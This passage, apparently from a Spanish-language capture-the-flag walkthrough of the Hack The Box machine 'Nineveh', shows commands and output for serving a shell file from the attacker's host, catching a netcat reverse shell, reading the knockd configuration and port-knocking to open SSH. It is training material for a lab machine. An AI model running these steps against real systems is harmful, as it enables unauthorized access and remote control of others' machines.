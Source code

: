 Montamos un servidor con python3 para postear la `shell.txt` y subirla al servidor victima.
```bash
# python3 -m http.server 80                                                                
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.43 - - [12/Jul/2021 16:27:05] "GET /shell.txt HTTP/1.1" 200 -
```

Obtenemos Acceso desde nuestra session a la escucha por el puerto `1234`
```bash
# nc -nlvp 1234
listening on [any] 1234 ...
connect to [10.10.14.12] from (UNKNOWN) [10.10.10.43] 54202
Linux nineveh 4.4.0-62-generic #83-Ubuntu SMP Wed Jan 18 14:10:15 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
 15:54:35 up 28 min,  0 users,  load average: 0.02, 0.06, 0.07
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```
# Escalada de Privilegios de www-data a amrois
- PORTKNOCKING 

Hay un proceso de `portKnocking o golpes TCP UDP para abrir un servicio` 
Miramos por los procesos ejecutados a nivel de root en el sistema.

```bash
#ps -aux 
root      1309  1.1  0.2   8756  2224 ?        Ss   06:47   0:40 /usr/sbin/knock
```

Nos movemos a buscar el fichero de configuracion de `nockd.conf`
```bash
www-data@nineveh:/etc$ cat knockd.conf
[options]
 logfile = /var/log/knockd.log
 interface = ens160

[openSSH]
 sequence = 571, 290, 911 
 seq_timeout = 5
 start_command = /sbin/iptables -I INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn

[closeSSH]
 sequence = 911,290,571
 seq_timeout = 5
 start_command = /sbin/iptables -D INPUT -s %IP% -p tcp --dport 22 -j ACCEPT
 tcpflags = syn
```

Desde nuestro pc attackante: hacemos lo siguiente para golpear los puertos y que se abra el servicio SSH
```bash
# for x in 571 290 911; do nmap -Pn --max-retries 0 -p $x 10.10.10.43; done
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-07-12 17:09 CEST
Warning: 10.10.10.43 giving up on port because retransmission cap hit (0).
Nmap scan report for nineveh.htb (10.10.10.43)
Host is up.

PORT    STATE    SERVICE
571/tcp filtered umeter

Nmap done: 1 IP address (1 host up) scanned in 1.44 seconds
```
